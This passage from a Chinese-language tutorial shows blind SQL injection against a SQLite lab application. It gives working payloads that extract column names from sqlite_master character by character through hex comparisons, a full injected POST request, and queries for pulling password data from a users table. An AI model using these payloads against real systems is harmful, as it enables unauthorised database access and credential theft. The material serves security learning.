 [![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t019d065802682efc89.png)

以上，在“中的即为列名，上面提到的payload将会提取出所有列名，为了提取相应字符数据需要将其转换为hex再进行比较，以下payload将会有所帮助：

```
hex(substr(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),"`",""),column-name_character_numer,1))
```

你只需要将上面payload中的column-name_character_numer替换为相应的数字即可，比如想要猜解列名列表中的第一个字符，你只需将其替换为1.本例中的SQL盲注payload如下：

```
and (select hex(substr(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),"`",""),1,1)) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' and name='info') &lt; hex('Character_we_are_guessing')
```

将Character_we_are_guessing替换为想要猜解的字符即可，就像下面示例，hex('q')表示我们想要确认第一个字符是否在'q'之前。

```
http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (select hex(substr(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),"`",""),1,1)) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' and name='info') &lt; hex('q')-- -&amp;search=Check+Plan
```

页面内容与之前的一致，即列名第一个字符在q之前。后续步骤与前面猜解表名类似。

**从列中猜解数据**

接着让我们来猜解列中的数据。在猜解完表名和列名后，假设我们想要猜解users表中password列的数据。如我们所知，从表中的列里面提取数据的SQL查询如下：

```
Select column_name from table_name
```

上述查询将返回所有结果，为了限制只返回一条结果，可以使用：

```
Select password from users limit 1 offset 0
```

计算查询结果数量可以使用：

```
Select count(password) from users
```

获取单一结果的长度可以使用：

```
Select length(password) from users limit 1 offset 0
```
